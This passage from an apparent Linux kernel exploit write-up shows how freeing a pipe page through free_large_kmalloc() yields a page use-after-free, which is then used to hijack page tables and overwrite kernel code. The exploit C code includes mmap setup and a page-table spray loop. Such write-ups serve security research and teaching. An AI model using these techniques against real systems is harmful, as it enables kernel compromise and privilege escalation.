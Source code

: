 The function `free_large_kmalloc()` only raises a warning if the target object is located in an order-0 page [2]. Execution then continues, and the function eventually calls `folio_put()` [3] to release the page.

``` c
static void free_large_kmalloc(struct folio *folio, void *object)
{
    unsigned int order = folio_order(folio);

    // [...]
    if (WARN_ON_ONCE(order == 0)) // [2]
        pr_warn_once("object pointer: 0x%p\n", object);

    // [...]
    __folio_clear_large_kmalloc(folio);
    folio_put(folio); // [3]
}
```

At this point, the pipe page is freed, leaving us with a powerful **page UAF primitive**. Awesome!

### 3.5. Hijack Page Table

#### 3.5.1. empty_zero_page

We chose to use the page UAF primitive to hijack the page table, as this allows **direct overwriting of kernel code**. Besides the page table, one could also hijack shared libraries or other memory structures.

For my exploit, I used `0x80000000UL` as the base address, and its page table layout is as follows:
- PT (bits 20–12): 0
- PD (bits 29–21): 0
- PDPT (bits 38–30): 2
- PML4 (bits 47–39): 0

During initialization, I populated the first page. As a result, the kernel allocated the required PML4, PDPT, PD, and PT internally. This ensures that subsequent allocations only require **new PT entries**, rather than higher-level page table structures.

``` c
#define BASE_MMAP_ADDR ((void *)0x80000000UL)
SYSCHK(mmap(BASE_MMAP_ADDR, 0x1000, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE | MAP_POPULATE, -1, 0));
```

Once the page UAF was obtained, I populated multiple pages and readed the mapped memory to trigger faults in the `empty_zero_page`.

``` c
printf("[+] spray pgtable\n");
{
    for (int i = 1; i < 512; i++) {
        void *ptr = (void *)BASE_MMAP_ADDR + i * 0x200000;
        SYSCHK(mmap(ptr, 0x1000, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0));
        if (*(volatile char *)ptr) printf("owo\n");
    }
}
```
